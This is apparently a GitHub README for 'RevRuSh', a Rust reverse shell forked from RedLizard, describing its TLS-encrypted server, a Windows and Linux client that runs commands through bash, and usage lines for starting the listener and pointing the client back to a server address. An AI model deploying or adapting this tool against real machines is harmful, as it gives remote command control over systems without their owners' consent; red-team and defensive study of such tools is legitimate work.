 # RevRuSh - A sample reverse shell in Rust
### Based on https://github.com/trickster0/RedLizard


![Redlizard](screen.png)

#### Note
Since the original project, RedLizard, is not mantained anymore I decided to create a new indipendent project.

Many thanx to [trickster0](https://github.com/trickster0) 

#### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


#### Requirements:
- rustc & cargo 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
#### Advises
- [Generate certificate using OpenSSL](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs)
- better run server on linux

#### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
./redlizard_server zinz 4443
```

#### Run the client
Pass the server:port as argument.
```
redlizard_client.exe 192.168.1.10:4443
```

##### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```
 "127.0.0.1:4443".to_owned()
```


